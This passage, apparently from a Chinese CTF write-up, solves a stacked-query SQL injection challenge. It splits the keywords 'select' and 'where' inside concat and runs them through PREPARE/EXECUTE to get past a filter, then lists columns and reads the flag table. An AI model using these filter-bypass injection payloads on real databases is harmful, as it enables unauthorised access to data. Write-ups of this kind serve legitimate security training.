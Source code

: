 注意点就是mysql没有双引号，所以concat中需要使用单引号。同时从运行结果可以知道，一共存在两张表
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/db3th3vdzn9.png" width="600px" />

#### 使用堆叠查询，查询表的字段
1. 查询1919810931114514

```sql
use information_schema;
set @sql1=concat('sel','ect group_concat(column_name) from columns wh','ere table_name=\'1919810931114514\'');
prepare stmt from @sql1;
execute stmt;
```


这里值得注意的就是concat函数中，如果还需要加上单引号。
有以下几种做法：
1. 需要对单引号使用转义符号。
2. 使用两个单引号代替一个单引号
运行结果 存在flag表
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/oh0m951g0dm.png" width="600px" />

#### 使用报错注入获取数据库的名称

####  使用堆叠查询，查询表的内容
```sql
set @sql1=concat('sel','ect group_concat(flag) from `1919810931114514` ');
prepare stmt from @sql1;
execute stmt;
```
值得注意的是，数字名称的表需要使用`来进行保护
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/ak021zj6nt9.png" width="1000px" />
获取到flag解题完全

```{.python .input}

```
